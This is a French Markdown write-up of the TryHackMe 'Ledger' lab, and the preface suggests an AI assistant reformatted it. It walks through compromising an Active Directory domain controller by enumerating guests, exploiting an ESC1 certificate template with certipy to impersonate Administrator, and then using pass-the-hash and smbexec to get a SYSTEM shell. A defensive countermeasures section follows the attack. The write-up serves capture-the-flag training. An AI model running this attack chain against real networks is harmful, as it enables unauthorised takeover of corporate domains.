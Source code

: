 Voici ton texte formaté en Markdown clair, prêt à être publié sur GitHub Pages ou un site Jekyll :

```markdown
# TryHackMe - Ledger – Write-up Complet (FR)

[https://tryhackme.com/room/ledger](https://tryhackme.com/room/ledger)

---

## 🧠 Objectif

Exploiter une machine Windows Active Directory vulnérable (`labyrinth.thm.local`)  
pour obtenir une exécution de commande en tant qu’administrateur de domaine via SMB et NTLM hash.

---

## 🔍 1. Scan et découverte

### Scan nmap

---

### Ajout dans `/etc/hosts` :

```

IPCIBLE labyrinth.thm.local thm.local LABYRINTH

````

- Port 445 (SMB) ouvert : cible un contrôleur de domaine Windows.

---

### Test guest :

```bash
nxc smb labyrinth.thm.local -u 'guest' -p ''
nxc ldap labyrinth.thm.local -u 'guest' -p '' --users
````

On récupère 2 utilisateurs avec le même mot de passe.

---

### Connexion avec un utilisateur valide :

```bash
nxc smb labyrinth.thm.local -u 'SUSANNA_MCKNIGHT' -p '[REDACTED]'
```

Connexion avec Remmina (RDP).
Récupération du flag `user.txt`.

---

## 🧩 2. Credential reuse via NTLM hash

### Active Directory Certificate Services (AD CS)

À l'aide de certipy, nous trouvons un modèle de certificat appelé `ServerAuth` vulnérable à ESC1.

---

### ESC1 (Enterprise Security Control 1)

* Technique d’attaque contre AD CS.
* Permet à un utilisateur de s’auto-délivrer un certificat d’authentification valide pour n’importe quel utilisateur, même un Domain Admin !

---

### Découverte de la vulnérabilité avec certipy :

```bash
certipy-ad find -u 'SUSANNA_MCKNIGHT@thm.local' -p '[REDACTED]' -target labyrinth.thm.local -stdout -vulnerable
```

* Droits d'inscription : `THM.LOCAL\Authenticated Users` peut s'inscrire, ce qui permet de demander le certificat.
* Authentification client EKU : certificat utilisable pour l’authentification auprès d’Active Directory.
* **EnrolleeSuppliesSubject** : vulnérabilité principale, permet de spécifier le sujet du certificat, donc d'usurper n'importe quel compte.

---

### Demande du certificat en se faisant passer pour l'administrateur :

```bash
certipy-ad req -username 'SUSANNA_MCKNIGHT@thm.local' -password '[REDACTED]' \
-ca thm-LABYRINTH-CA -target labyrinth.thm.local \
-template ServerAuth -upn Administrator@thm.local
```

---

### Authentification avec le certificat généré :

```bash
certipy-ad auth -pfx administrator.pfx
```

Un hash NTLM est fourni ou découvert :
`:07d677XXXXXXXXXXXXX322`

---

### Test du hash avec CrackMapExec :

```bash
cme smb labyrinth.thm.local -u Administrator -H 07d677XXXXXXXXXX322 --kdcHost labyrinth.thm.local
```

✔️ Accès confirmé : utilisateur Administrator avec un hash fonctionnel → Pass-the-Hash.

---

## 🚀 3. Exploitation finale

```bash
smbexec -k -hashes :07d677XXXXXXXX52322 THM.LOCAL/Administrator@labyrinth.thm.local
```

✔️ Shell SYSTEM via SMB !
Obtention de `root.txt`.

---

## 🛡️ 4. Bonnes pratiques défensives (Blue Team)

| Problème exploité                                    | Contremesure recommandée                                              |
| ---------------------------------------------------- | --------------------------------------------------------------------- |
| Hash NTLM réutilisable (Pass-the-Hash)               | - Activer LAPS (Local Admin Password Solution)                        |
|                                                      | - Désactiver SMBv1                                                    |
|                                                      | - Kerberos only                                                       |
| Pas de segmentation réseau                           | Isoler les DC, segmenter le réseau AD.                                |
| Aucun journal d’échec (4625)                         | Auditer les logs de sécurité Windows.                                 |
| Pas de détection post-exploitation                   | SIEM avec alertes sur smbexec, psexec, wmiexec                        |
| Accès Admin avec mot de passe connu ou hash statique | Rotation régulière des mots de passe et monitoring des connexions SMB |

---

## ✅ En résumé

* L’accès initial est facilité par un compte avec mot de passe faible.
* La faille principale repose sur ESC1, mal configuré dans l’Active Directory Certificate Services.
* La réutilisation d’un hash NTLM permet une élévation de privilège jusqu’à Administrator.
* Une exécution de commande à distance est réalisée via SMBExec.

---

## 🧠 Outils utilisés

* nxc (NetExec)
* certipy
* crackmapexec
* smbexec.py

---

## 📌 À retenir pour la défense

* 🎯 Surveillez les modèles de certificats.
* 🎯 Ne laissez pas les utilisateurs choisir leurs propres sujets.
* 🎯 Sécurisez SMB et éliminez NTLM si possible.
* 🎯 Déployez la journalisation et les alertes ADCS.

```

---

